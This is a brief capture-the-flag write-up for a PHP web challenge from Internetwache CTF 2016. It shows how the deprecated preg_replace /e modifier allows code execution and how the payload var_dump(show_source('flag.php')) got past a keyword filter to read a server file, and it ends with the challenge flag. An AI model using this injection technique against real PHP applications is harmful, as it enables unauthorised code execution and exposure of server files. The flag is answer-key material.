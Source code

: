 ```yaml
---
layout: post
title:  "Internetwache CTF 2016: Replace with Grace (web 60)"
author: sigttou
categories: writeup
tags: [cat/web, lang/php]
---
```


* **Category:** web
* **Points:** 60
* **Description:** 

> Regular expressions are pretty useful. Especially when you need to search and replace complex terms.

## Write-up

The given website is used to "Search & Replace" with regular expressions.
From other challenges we know, that we can execute php code using:
```php
/(.*)/e
```
(Check out [this Stackoverflow answer](http://stackoverflow.com/a/16986549/1518225) for details.)

The problem was, that the website filtered some inputs like:

* file
* open


It worked with:

```
var_dump(show_source('flag.php'));
```

A simple, but nice challenge.

```
IW{R3Pl4c3_N0t_S4F3}
```
